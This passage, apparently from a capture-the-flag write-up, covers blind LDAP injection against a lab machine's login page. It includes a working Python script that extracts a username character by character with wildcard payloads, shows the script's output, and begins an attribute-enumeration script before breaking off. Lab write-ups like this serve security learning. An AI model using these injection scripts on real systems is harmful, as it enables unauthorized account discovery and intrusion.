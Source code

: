       __NOTE(S)__:
      - `%2A` is a wildcard (`*`) operator in hex
      - The error message, `Cannot login`, could mean it's a "valid" username
      - URL encoded __special characters__ are not being filtered out
>
   2. Extract an actual username:
      ```py
      import requests as r
      import urllib.parse as u

      username = ""
      char_list = "abcdefghijklmnopqrstuvwxyz0123456789"
      while True:
          for i in range(0, len(char_list)):
              
              ldap_injection = "%s%c*" % (username, char_list[i])
              data = { "inputUsername": u.quote(ldap_injection) }
              req = r.post("http://10.10.10.122/login.php", data=data)

              if "Cannot login" in req.text:
                  username = username + char_list[i]
                  print(username)
                  break
              
          if i == len(char_list) - 1 : break

      print("[x] THE USERNAME IS " + username)
      ```
      - Run using `python3`:
        ```
        l
        ld
        lda
        ldap
        ldapu
        ldapus
        ldapuse
        ldapuser
        [x] THE USERNAME IS ldapuser
        ```

      __NOTE(S)__:
      - __Blind__ injection has yielded a result
      - An actual username has been extracted -- `ldapuser`
>
   3. Find available LDAP attributes:
      ```py
      import requests as r
      import urllib.parse as u

      attribute_list = open("/usr/share/wordlists/ldap_attribute_names.txt", "r")

      attributes = []
      for i in attribute_list:
              